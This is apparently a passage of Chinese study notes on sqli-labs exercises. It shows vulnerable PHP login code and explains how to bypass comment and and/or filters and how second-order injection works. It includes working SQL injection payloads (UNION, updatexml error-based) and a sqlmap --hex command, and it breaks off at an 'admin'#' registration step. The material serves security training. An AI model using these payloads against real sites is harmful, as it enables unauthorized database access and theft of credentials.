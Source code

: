     $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
    $result=mysql_query($sql);
    $row = mysql_fetch_array($result);
    if($row)
    {        
              echo 'Your Login name:'. $row['username'];
              echo 'Your Password:' .$row['password'];
    }
    
        

```
这段代码的意思是：-
#和-- 这两个注释符一旦出现就会被替换成 " "空字符串。-
所以我们不能使用注释符来注释掉后面的 ’ ,而是使用 or ‘1’='1来闭合。-
还可以使用特殊的符号来进行截断: ;%00-
```
payload：

    0' union select 1,database(),2 and '1'='1
    
        

## 绕过去除and和or的SQL注入：less-25

绕过方法：

1.MySQL中的大小写不敏感，大小写一样。

2.MySQL中的16进制与URL编码是一致的。

3.符号和关键字的替换，and 与 && ，or 与 ||等价

4.内敛注释（/\*! 内敛注释 _/）会被当做SQL语句来执行，而多行注释（/_ 多行注释 \*/）不会执行。

5.MySQL会自动识别URL和Hex编码好的内容。

payload：

    ?id=1' || updatexml(0,concat(0x7e,version()),1)--+
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201217183357513.png)

sqlmap绕过注释符，利用hex编码：-u “url” --dbs --batch --hex（利用hex编码绕过）

## 二次注入:less-24

eg：-
用户注册，会把username，password作为payload，将注册信息存储在数据库服务器中。-
之后用户要修改密码时，需要将对应的数据从数据库中读取出来，使得第一次输入的信息，作为第二次的payload执行，被称为二次注入。

二次注入 简单概括就是黑客精心构造 SQL 语句插入到数据库中，数据库的信息被其他类型的 SQL 语句调用的时候触发攻击行为。因为第一次黑客插入到数据库的时候并没有触发危害性，而是再其他语句调用的时候才会触发攻击行为，这个就是二次注入。

攻击思路-
1、创建用户 【admin’#】
